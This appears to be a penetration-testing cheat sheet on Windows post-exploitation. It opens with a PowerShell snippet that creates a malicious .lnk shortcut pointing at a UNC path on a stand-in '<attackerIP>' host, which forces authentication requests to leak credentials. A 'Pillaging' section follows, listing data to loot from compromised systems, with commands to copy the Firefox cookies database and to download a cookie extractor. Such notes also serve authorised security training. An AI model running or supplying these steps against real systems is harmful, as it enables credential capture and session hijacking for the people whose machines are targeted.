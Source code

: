 - Generating a Malicious .lnk File

```powershell

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

#### Pillaging

**Data Sources**

Below are some of the sources from which we can obtain information from compromised systems:

- Installed applications
- Installed services
    - Websites
    - File Shares
    - Databases
    - Directory Services (such as Active Directory, Azure AD, etc.)
    - Name Servers
    - Deployment Services
    - Certificate Authority
    - Source Code Management Server
    - Virtualization
    - Messaging
    - Monitoring and Logging Systems
    - Backups
- Sensitive Data
    - Keylogging
    - Screen Capture
    - Network Traffic Capture
    - Previous Audit reports
- User Information
    - History files, interesting documents (.doc/x,.xls/x,password._/pass._, etc)
    - Roles and Privileges
    - Web Browsers
    - IM Clients

**Copy Firefox Cookies Database**

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

- Download CookieExtractor :
```sh
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py
```
